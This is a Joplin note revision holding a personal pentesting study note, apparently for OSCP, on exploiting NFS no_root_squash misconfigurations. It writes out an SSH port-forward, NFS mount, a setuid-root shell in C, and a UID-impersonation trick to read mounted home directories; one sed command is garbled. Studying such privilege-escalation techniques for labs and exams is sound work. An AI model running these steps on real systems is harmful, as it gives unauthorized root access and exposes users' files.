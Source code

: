 id: ed9f99b3bf0e416087773e5829be1718
parent_id: 
item_type: 1
item_id: 5c154102202a4bc2810ada55f25852e7
item_updated_time: 1661091619800
title_diff: "[{\"diffs\":[[1,\"NFS Vulns\\\r\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":10}]"
body_diff: "[{\"diffs\":[[1,\"<ins>Vulnerabilities</ins>\\\n\\\n[https://book.hacktricks.xyz/linux-unix/privilege-escalation/nfs-no\\\\_root\\\\_squash-misconfiguration-pe](https://book.hacktricks.xyz/linux-unix/privilege-escalation/nfs-no_root_squash-misconfiguration-pe)\\\n\\\nRead the /etc/exports file, if you find some directory that is configured as no\\\\_root\\\\_squash, then you can access it from as a client and write inside that directory as if you were the local root of the machine.\\\n\\\n**no\\\\_root\\\\_squash**: This option basically gives authority to the root user on the client to access files on the NFS server as root. And this can lead to serious security implications.\\\n\\\n**no\\\\_all\\\\_squash**: This is similar to no\\\\_root\\\\_squash option but applies to non-root users. Imagine, you have a shell as nobody user; checked /etc/exports file; no\\\\_all\\\\_squash option is present; check /etc/passwd file; emulate a non-root user; create a suid file as that user (by mounting using nfs). Execute the suid as nobody user and become different user.\\\n\\\n<ins>NFS; no\\\\_root\\\\_squash, insecure, rw</ins>\\\n\\\nIf /etc/exports have a line e.g.\\\n\\\n> /srv/pelota 192.168.42.0/24(insecure,rw)\\\n> /srv/pelota 127.0.0.1/32(no\\\\_root\\\\_squash,insecure,rw)\\\n\\\nThen NFS is being exported and you have ssh access to the machine. You can use your attacker machine (login as root) to run:\\\n\\\n> ssh -f -N megumin@192.168.42.43 -L 2049:127.0.0.1:2049\\\n> mount -t nfs 127.0.0.1:/srv/pelota my_share\\\n> cd my_share\\\n> cat > shell.c<<EOF\\\n> #include &lt;unistd.h&gt;\\\n> int main(){\\\n> setuid(0);\\\n> setgid(0);\\\n> system(\\\"/bin/bash\\\");\\\n> }\\\n> EOF\\\n> gcc shell.c -o shell\\\n> chmod u+s shell\\\n\\\nNow inside a ssh session on the victim machine i.e. 192.168.42.32 in this case\\\n\\\n> cd /srv/pelota\\\n> ./shell\\\n> \\\n> Use 'id' to identify what user you are\\\n\\\n<ins>Example of Vuln config; OSCP EXAM HAPPENED</ins>\\\n\\\nIf you wish to use NSE scripts:nmap -sV -p 111 --script=rpcinfo 10.11.1.1-254\\\n\\\n![7a58718293ff72b88d3e48b60dfc46d7.png](:/a6a3e955d5ca4466a074924b94657fda)\\\n\\\nThis case -- /home is being shared, and can be accessed by mounting it on our kali machine.\\\n\\\nTo do so:\\\n\\\n> mkdir home;\\\n> \\\n> sudo mount -I nolock $IP/home ~/home/;\\\n\\\n- -nolock will disable file locking\\\n\\\nIf we try to view files within that mounted folder, there won't be any permissions granted\\\n\\\nWhat we can do is to replicate the user by creating a user with the same UUID, su to that user and access the file\\\n\\\n> `sudo adduser pwn; sudo sed 0u 0e 's/$Created\\\\_UUID/$permission\\\\_UUID/g' /etc/passwd; su pwn; cat $file`\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":2465}]"
metadata_diff: {"new":{"id":"5c154102202a4bc2810ada55f25852e7","parent_id":"27b595c9aae647aba407fed241a81f90","latitude":"1.36730000","longitude":"103.80140000","altitude":"0.0000","author":"","source_url":"","is_todo":0,"todo_due":0,"todo_completed":0,"source":"joplin-desktop","source_application":"net.cozic.joplin-desktop","application_data":"","order":0,"markup_language":1,"is_shared":0,"share_id":"","conflict_original_id":"","master_key_id":""},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-08-21T14:20:48.672Z
created_time: 2022-08-21T14:20:48.672Z
type_: 13